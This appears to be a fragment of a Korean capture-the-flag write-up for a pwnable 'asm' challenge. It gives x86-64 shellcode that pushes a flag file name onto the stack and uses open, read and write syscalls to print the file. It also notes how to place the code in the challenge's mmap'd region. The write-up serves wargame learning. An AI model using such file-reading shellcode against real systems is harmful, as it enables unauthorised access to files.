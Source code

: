 ```assembly
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6c
	push rax
	mov rax, 0x5f797265765f7369
	push rax
	mov rax, 0x5f656d616e5f656c
	push rax
	mov rax, 0x69665f6568745f79
	push rax
	mov rax, 0x72726f732e656c69
	push rax
	mov rax, 0x665f736968745f64
	push rax
	mov rax, 0x6165725f65736165
	push rax
	mov rax, 0x6c705f656c69665f
	push rax
	mov rax, 0x67616c665f726b2e
	push rax
	mov rax, 0x656c62616e77705f
	push rax

	mov rdx, 0x0
	mov rsi, 0x0
	mov rdi, rsp
	mov rax, 2
	syscall	

	mov rdi, rax
	mov rsi, buf
	mov rdx, 100
	mov rax, 0
	syscall

	mov rdi, 1
	mov rsi, buf
	mov rdx, 100
	mov rax, 1
	syscall 	
```
이렇게 만들어 주면 우리는 read, write, open을 사용하여 로컬 환경에서 flag를 띄워 줄 수 있는 어셈 소스를 만들었다.
그렇다면 우리는 이 환경이 아닌 pwnable에서 가능한 어셈을 만들어 주어야 한다.

이것을 우리는 기계어로 바꾸어 주어야 한다.
다른 문제에서는 null 값을 제거 해주어야 하지만 이 문제에서는 null을 신경안써도 된다.

위의 코드는 로컬환경에서 만든 소스이기 때문에 buf 값을 우리가 정해서 사용했지만 실제 코드를 실행시키기 위해서는 c 파일에 있는 

``
char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
`` 에서 할당된 영역안으로 넣어주어야 한다.
